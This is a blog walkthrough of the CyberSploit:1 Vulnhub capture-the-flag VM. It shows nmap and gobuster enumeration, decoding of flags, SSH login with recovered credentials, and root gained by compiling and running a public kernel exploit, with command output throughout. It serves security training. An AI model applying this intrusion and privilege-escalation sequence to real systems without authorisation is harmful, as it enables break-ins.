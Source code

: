 ```yaml
---
date: 2020-07-27 00:01:45
layout: post
title: "CyberSploit 1 Vulnhub Walkthrough"
subtitle:
description: CyberSploit:1 is a boot2root VM from Vulnhub. This is the first part of the Vulnhub's CyberSploit Series.
image: /assets/img/uploads/cybersploit-1/cyber-robot.png
optimized_image: /assets/img/uploads/cybersploit-1/cyber-robot-optimized.png
category: walkthrough
tags: vulnhub boot2root
author: madhavmehndiratta
paginate: false
keywords: cybersploit 1, cybersploit 1 vulnhub, cybersploit 1 walkthrough, cybersploit 1 vulnhub walkthrough, cybersploit 1 writeup, vulnhub cybersploit walkthrough, cybersploit writeup, infosec articles
---
```


Today I will be sharing a walkthrough of CyberSploit:1, a boot2root VM available on Vulnhub. This is the first part of the Vulnhub's CyberSploit Series and rated easy. It consists of three flags and our goal is to read all the three flags. I have added the IP address of the machine to the hosts file, So Let's Begin!

```r
root@kali:~# cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
192.168.1.7     cybersploit
```

## Enumeration 

I started the reconnaissance by running a port scan with Nmap, checking default scripts and testing for vulnerabilities.

```r
root@kali:~# nmap -sC -sV -oA nmap/initial cybersploit

Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for cybersploit (192.168.1.7)
Host is up (0.00027s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 01:1b:c8:fe:18:71:28:60:84:6a:9f:30:35:11:66:3d (DSA)
|   2048 d9:53:14:a3:7f:99:51:40:3f:49:ef:ef:7f:8b:35:de (RSA)
|_  256 ef:43:5b:d0:c0:eb:ee:3e:76:61:5c:6d:ce:15:fe:7e (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Hello Pentester!
MAC Address: 08:00:27:FF:BD:6F (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.35 seconds
```
We see a ssh port open and a port 80 open which is running an Apache 2.2.22 web server. Looking at port 80 on the web browser, we see a GIF. Looking at the page source, I found a username <b>itsskv.</b> This might be useful in future! 

<center><br><br>
<img src="/assets/img/uploads/cybersploit-1/username.png">
</center>

This web application is not much functional, so next I decided to run a gobuster scan to look for hidden pages.

```r
root@kali:~# gobuster dir -u http://cybersploit -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt,.html 

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://cybersploit
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
Starting gobuster
===============================================================
/index (Status: 200)
/index.html (Status: 200)
/robots (Status: 200)
/robots.txt (Status: 200)
/hacker (Status: 200)
/server-status (Status: 403)
===============================================================
Finished
===============================================================
```

The hacker page is simply the GIF we see in the home page but robots or robots.txt has some interesting information.

<center><br>
<img src="/assets/img/uploads/cybersploit-1/robots.png">
</center>

It contains some string which is most probably base64, after decoding it, we can read our first flag! That was easy!

```r
root@kali:~# echo -n R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9 | base64 -d

Good Work !
Flag1: cybersploit{youtube.com/c/cybersploit}
```

We can now login into the target machine via ssh using username <b>itsskv</b> and password:<br><b>cybersploit{youtube.com/c/cybersploit}.</b>

```r
root@kali:~# ssh itsskv@cybersploit

Warning: Permanently added the ECDSA host key for IP address '192.168.1.7' to the list of known hosts.

itsskv@cybersploits password:
Welcome to Ubuntu 12.04.5 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

332 packages can be updated.
273 updates are security updates.

New release '14.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


Your Hardware Enablement Stack (HWE) is supported until April 2017.

Last login: Sat Jun 27 10:14:39 2020 from cybersploit.local
itsskv@cybersploit-CTF:~$
```

After logging in as user itsskv, I found a <b>flag2.txt</b> in the same directory, but this flag is encoded into binary. 

```r
itsskv@cybersploit-CTF:~$ cat flag2.txt 
01100111 01101111 01101111 01100100 00100000 01110111 01101111 01110010 01101011 00100000 00100001 00001010 01100110 01101100 01100001 01100111 00110010 00111010 00100000 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 01111011 01101000 01110100 01110100 01110000 01110011 00111010 01110100 00101110 01101101 01100101 00101111 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 00110001 01111101
```

We can easily decode it using <a href="https://gchq.github.io/CyberChef/">Cyber Chef</a> and read our second flag!

<center><br>
<img src="/assets/img/uploads/cybersploit-1/cyberchef.png">
</center>

## Privilege Escalation

The root is quite simple. Looking at the output of <b>uname -a</b> command, I found that this machine is using an old version of kernel which is vulnerable to many exploits. 

```r
itsskv@cybersploit-CTF:~$ uname -a
Linux cybersploit-CTF 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 i686 i386 GNU/Linux
```

I decided to go with <a href="https://www.exploit-db.com/exploits/37292">this</a> exploit. Just download and compile this exploit in the target machine and execute the binary.

```r
itsskv@cybersploit-CTF:~$ gcc 37292.c -o exploit
itsskv@cybersploit-CTF:~$ ./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),1001(itsskv)
# python -c 'import pty;pty.spawn("/bin/bash")'
root@cybersploit-CTF:/home/itsskv#
```
Yeaah! We are root! Now we can read our final flag present in the root directory.

```r
root@cybersploit-CTF:/home/itsskv# cat /root/finalflag.txt 
  ______ ____    ____ .______    _______ .______          _______..______    __        ______    __  .___________.
 /      |\   \  /   / |   _  \  |   ____||   _  \        /       ||   _  \  |  |      /  __  \  |  | |           |
|  ,----' \   \/   /  |  |_)  | |  |__   |  |_)  |      |   (----`|  |_)  | |  |     |  |  |  | |  | `---|  |----`
|  |       \_    _/   |   _  <  |   __|  |      /        \   \    |   ___/  |  |     |  |  |  | |  |     |  |     
|  `----.    |  |     |  |_)  | |  |____ |  |\  \----.----)   |   |  |      |  `----.|  `--'  | |  |     |  |     
 \______|    |__|     |______/  |_______|| _| `._____|_______/    | _|      |_______| \______/  |__|     |__|     
                                                                                                                  

   _   _   _   _   _   _   _   _   _   _   _   _   _   _   _  
  / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ 
 ( c | o | n | g | r | a | t | u | l | a | t | i | o | n | s )
  \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ 

flag3: cybersploit{Z3X21CW42C4 many many congratulations !}

if you like it share with me https://twitter.com/cybersploit1.

Thanks !
```

That’s it! Thanks for reading. Stay tuned for similar walkthroughs and much more coming up in the near future!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/benbely">Mia Ditmanson.</a>